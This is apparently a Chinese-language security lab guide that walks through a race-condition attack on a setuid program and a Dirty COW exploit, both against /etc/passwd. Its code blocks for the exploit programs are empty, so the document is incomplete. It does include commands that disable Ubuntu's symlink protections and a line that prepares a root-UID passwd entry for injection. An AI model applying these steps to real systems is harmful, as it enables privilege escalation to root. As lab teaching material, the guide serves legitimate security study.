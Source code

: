 # Race Condition 实验

## 1. 准备实验程序(vulp.c)

```c

```

按照如下命令对其进行编译并设置为setuid程序

```bash
gcc vulp.c -o vulp
sudo chown root vulp
sudo chmod 4755 vulp

# 关闭保护措施
# for ubuntu 16.04
sudo sysctl -w fs.protected_symlinks=0
# for ubuntu 12.04
sudo sysctl -w kernel.yama.protected_sticky_symlinks=0
```

## 2. 设置将要添加到/etc/passwd的用户行信息(passwd_input)

```bash
echo "test:U6aMy0Wojraho:0:0:test:/root:/bin/bash" > passwd_input
```

## 3. 设置攻击进程来不断更改链接的指向(attack_process.c)

```c

```

将其编译：`gcc -o attack_process attack_process.c`

## 4. 编写脚本不断触发实验程序，实现race condtion

```bash

```

## 5. 执行攻击

```bash
# 在窗口1执行attach_process来不断变换链接指向
./attack_process

# 在窗口2不断触发实验程序
bash target_process.sh

# 等待几分钟，会出现提示：STOP... The passwd file has been changed

# 查看效果
cat /etc/passwd
```

# Dirty Cow （在Ubuntu 12.04上进行）

## 1. 添加一个测试用户testcow

```bash
sudo adduser testcow
```

## 2. 准备攻击程序

```c

```

将其进行编译：`gcc dirty_cow.c -lpthread`生成a.out。

## 3. 执行攻击

```bash
# 执行如下程序几秒后手动ctrl+c结束
./a.out

# 查看结果
cat /etc/passwd
```
